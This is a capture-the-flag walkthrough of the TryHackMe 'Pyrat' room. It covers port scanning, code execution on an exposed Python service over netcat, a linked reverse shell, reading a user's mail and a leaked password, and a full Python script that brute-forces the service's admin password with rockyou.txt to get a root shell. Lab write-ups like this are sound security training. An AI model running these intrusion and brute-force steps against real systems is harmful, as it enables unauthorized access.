 # Pyrat

In this writeup, I will solve the pyrat CTF challenge on tryhackme.
You can find it [here](https://tryhackme.com/room/pyrat)

First I'll start by scanning the machine with Nmap.
```
┌──(root㉿kali)-[~]
└─# nmap 10.10.115.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-04 21:09 EET
Nmap scan report for pyrat.thm (10.10.115.68)
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 2.32 seconds

```
The machine is running http-alt and ssh.

I tried accessing the http server but I got this: 
```
┌──(root㉿kali)-[~]
└─# curl 10.10.115.68:8000
Try a more basic connection
```

So, I tried connecting with netcat.
Looks like it's executing python code.

```
┌──(root㉿kali)-[~]
└─# nc 10.10.115.68 8000
id

whoami
name 'whoami' is not defined
ls
name 'ls' is not defined
print(11)
11
```

I tried opening a reverse shell and it worked!
You can find the reverse shell [here](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)

I then ran linpeas for local enumeration.

![](pics/pic1.png)

I didn't find anything useful.
Then, I read the email of the user 'think'.

```
$ cat /var/mail/think
cat /var/mail/think
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
```

This looked interesting.
So I checked the github directory found by linpeas.

![](pics/pic2.png)

I then found this config file that contained the password for the user 'think'.

![](pics/pic3.png)

I then logged in via ssh and found the user flag.

![](pics/pic4.png)



Now, to find the root flag.

The hint suggested to keep playing with the custom app.
I ran ```git log -p``` to view all history commits in that github repo.

I found a script called ```pyrat.py.old```

![](pics/pic5.png)

Looks like there is an endpoint called ```admin```.

I tried accessing it via netcat and it prompted me for a password.

So after playing around for a while with that endpoint, I found that it accepts a password 3 times, then I have to type admin again to get prompted for the password.

So, I developed a simple python script to brute force this login.

```python
import socket

def login(s, password):
    try:
        s.send(password.encode())
        res = s.recv(1024).decode().strip()
        print(res)
        if "Password:" != res:
            print(f"[+] Found Password : {password}")
            quit()
    except socket.timeout:
        pass

ip = "10.10.115.68"
port = 8000

cnt = 0
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(1)
s.connect((ip, port))
s.send("admin".encode())
res = s.recv(1024)
print(res.decode())

with open("rockyou.txt", "r", encoding="latin1") as wordlist:
    for line in wordlist.readlines():
        print(line)
        if (cnt == 3):
            s.send("admin".encode())
            res2 = s.recv(1024).decode()
            cnt = 0
        login(s, line.strip())
        cnt += 1
```

I then ran the script and found the password.

![](pics/pic7.png)

I then typed 'shell' and that spawned a bash shell as root.
I finally got the root flag.

![](pics/pic8.png)